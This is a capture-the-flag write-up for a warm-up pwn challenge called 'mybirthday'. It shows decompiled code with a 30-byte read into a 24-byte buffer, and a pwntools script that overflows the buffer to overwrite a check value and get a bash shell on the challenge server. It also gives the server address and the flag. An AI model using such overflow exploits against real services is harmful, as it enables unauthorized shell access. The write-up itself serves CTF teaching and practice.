 ## mybirthday

#### Solved by nhanlun

```
Can you guess my birthday? Or you can just gimme the flag :)

nc 61.28.237.24 30200

author: pakkunandy
```

Open `mybirthday` with Ghidra:

```cpp
undefined4 main(void)
{
  undefined local_2c [24];
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = 0xfeefeffe;
  setup();
  puts("Tell me your birthday?");
  read(0,local_2c,30);
  if (local_14 == 0xcabbfeff) {
    run_cmd("/bin/bash");
  }
  else {
    run_cmd("/bin/date");
  }
  return 0;
}
```

We use buffer overflow to overwrite `local_14` with 0xcabbfeff to pass the check:

```py
from pwn import *
conn = remote('61.28.237.24', 30200)
conn.sendlineafter("?", b'a' * 24 + p32(0xcabbfeff))
conn.interactive()
ls
cat flag.txt
```

The flag is `HCMUS-CTF{Just_A_Warm_Up_Pwn}`
